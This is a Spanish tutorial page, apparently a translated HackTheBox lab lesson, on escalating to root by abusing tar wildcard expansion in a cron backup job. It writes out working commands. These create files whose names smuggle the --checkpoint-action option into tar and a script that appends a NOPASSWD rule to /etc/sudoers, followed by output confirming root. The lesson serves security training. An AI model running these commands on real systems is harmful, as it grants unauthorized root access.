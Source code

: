 # Abuso de comodín

---

Un personaje comodín puede usarse como reemplazo para otros caracteres y es interpretado por el Shell antes de otras acciones. Los ejemplos de comodines incluyen:

|**Personaje**|**Significado**|
|---|---|
|`*`|Un asterisco que puede coincidir con cualquier número de caracteres en un nombre de archivo.|
|`?`|Coincide con un solo personaje.|
|`[ ]`|Los soportes adjuntan caracteres y pueden coincidir con cualquiera en la posición definida.|
|`~`|Al principio, un Tilde se expande al nombre del directorio de inicio del usuario o puede tener otro nombre de usuario adjunto para referirse al directorio de inicio de ese usuario.|
|`-`|Un guión dentro de los soportes denotará una variedad de caracteres.|

Un ejemplo de cómo se pueden abusar de los comodines para la escalada de privilegios es el`tar`Comando, un programa común para crear/extraer archivos. Si miramos el[página del hombre](http://man7.org/linux/man-pages/man1/tar.1.html)para el`tar`Comando, vemos lo siguiente:

  Abuso de comodín

```shell-session
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

El`--checkpoint-action`La opción permite un`EXEC`Acción que se ejecutará cuando se alcanza un punto de control (es decir, ejecute un comando arbitrario del sistema operativo una vez que el comando TAR se ejecute). Al crear archivos con estos nombres, cuando se especifica el comodín,`--checkpoint=1`y`--checkpoint-action=exec=sh root.sh`se pasa a`tar`como opciones de línea de comandos. Veamos esto en la práctica.

Considere el siguiente trabajo cron, que está configurado para hacer una copia de seguridad del`/home/htb-student`contenido del directorio y crear un archivo comprimido dentro`/home/htb-student`. El trabajo de Cron se ejecutará cada minuto, por lo que es un buen candidato para la escalada de privilegios.

  Abuso de comodín

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

Podemos aprovechar el comodín en el trabajo de Cron para escribir los comandos necesarios como nombres de archivo con lo anterior en mente. Cuando se ejecute el trabajo cron, estos nombres de archivo se interpretarán como argumentos y ejecutarán cualquier comando que especifiquemos.

  Abuso de comodín

```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

Podemos verificar y ver que se crearon los archivos necesarios.

  Abuso de comodín

```shell-session
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

Una vez que el trabajo de Cron se ejecuta nuevamente, podemos verificar los privilegios de sudo recientemente agregados y sudo para rootear directamente.

  Abuso de comodín

```shell-session
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```